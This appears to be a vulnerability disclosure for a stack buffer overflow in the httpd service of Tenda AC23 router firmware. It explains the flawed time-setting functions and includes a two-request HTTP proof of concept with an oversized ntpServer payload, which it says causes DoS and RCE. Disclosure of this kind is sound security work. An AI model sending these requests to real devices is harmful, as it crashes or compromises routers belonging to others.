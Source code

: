 # Tenda AC23(V16.03.07.45_cn) has a Stack Buffer Overflow Vulnerability

## 1.Product 

1. **product information: https://www.tenda.com.cn/** 
2. **firmware download:https://www.tenda.com.cn/download/detail-3420.html**

----

## 2.**Firmware**

**Hardware version:V1.0**

**Software version:V16.03.07.45**

## 3.vulnerability details

The vulnerability is in `/bin/httpd`, the function `formSetSysTime` `formGetSysTime`. The function `formSetSysTime` can set nvram val `sys.timefixper` to `v3`, which can be set through POST parameter `timePeriod`

![image-20220924150554791](TendaAC21_1.assets/image-20220924150554791.png)

and in function `formGetSysTime`, the function calls `GetValue(“sys.timefixer”, v16)` to set the string to `v16` which is on the stack. So there is a stack overflow  vulnerability. 

By analyzing the funtion `GetValue` and `SetValue`, the max size of the string we can get from the function `GetValue` is `0x5DC`. It’s bigger than the size of `v16`, so there will be a bufferoverflow vulnerability. 

![image-20220924150700022](TendaAC21_1.assets/image-20220924150700022.png)

## 4.poc

1. You need to login and **replace the Cookie: password filed in poc**.
2. By sending  poc1 and poc2 (remember to send poc2), it can cause dos and rce. 

```
POST /goform/SetSysTimeCfg HTTP/1.1
Host: 192.168.0.1
Content-Length: 105
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/system_time.html?random=0.836749282878861&
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: password=25d55ad283aa400af464c76d713c07admvpcvb
Connection: close

timeType=sync&timePeriod=86400&ntpServer=time.windows.comaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&timeZone=20%3A00&time=2000-01-01%2000%3A58%3A22
```

```
GET /goform/GetSysTimeCfg?0.6678734602604752 HTTP/1.1
Host: 192.168.0.1
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://192.168.0.1/system_time.html?random=0.836749282878861&
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: password=25d55ad283aa400af464c76d713c07admvpcvb
Connection: close

```

![image-20220924150332605](TendaAC21_1.assets/image-20220924150332605.png)

----

### 5.Author

*Wangjingping*
